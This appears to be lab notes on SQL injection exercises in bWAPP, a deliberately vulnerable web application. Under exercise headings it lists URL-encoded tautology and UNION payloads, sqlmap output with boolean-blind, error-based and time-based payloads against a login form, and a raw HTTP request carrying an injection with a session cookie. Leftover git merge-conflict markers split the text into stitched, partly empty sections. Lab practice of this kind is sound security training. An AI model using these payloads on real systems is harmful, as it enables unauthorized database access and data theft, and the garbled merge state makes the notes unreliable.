 ## SQL Injection (ajax/json/jquery)

'%20or%201=1%20union%20all%20select%201,2,3,4,5,6,7--'

## SQL Injection (captcha)

Doesn't seem to function in the docker image

## SQL Injection (Login form/hero)

<<<<<<< Updated upstream
'%20or%201=1--'

## SQL Injection stored (xml)

## SQL Injection bline boolean-based

'%20or%20'a'='a

## SQL Injection ws/soap
=======
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: login (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
Payload: login=test' RLIKE (SELECT (CASE WHEN (1071=1071) THEN 0x74657374 ELSE 0x28 END))-- WnRs&password=password&form=submit

Type: error-based
Title: MySQL >= 4.1 OR error-based - WHERE, HAVING clause (FLOOR)
Payload: login=test' OR ROW(9107,7079)>(SELECT COUNT(*),CONCAT(0x7176626271,(SELECT (ELT(9107=9107,1))),0x716b7a6a71,FLOOR(RAND(0)*2))x FROM (SELECT 4522 UNION SELECT 4415 UNION SELECT 1358 UNION SELECT 8944)a GROUP BY x)-- TsEf&password=password&form=submit

Type: AND/OR time-based blind
Title: MySQL >= 5.0.12 OR time-based blind
Payload: login=test' OR SLEEP(5)-- VTjA&password=password&form=submit

## SQL Injection SQLite

GET /bWAPP/sqli_11.php?title=a'%20or%201=1%20union%20all%20select%201,2,3,4,5,6--&action=search HTTP/1.1
Host: 192.168.1.48
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.48/bWAPP/sqli_11.php
Cookie: security_level=0; PHPSESSID=a016f0c73c9877d85b98510638cc41a8
Connection: close
Upgrade-Insecure-Requests: 1
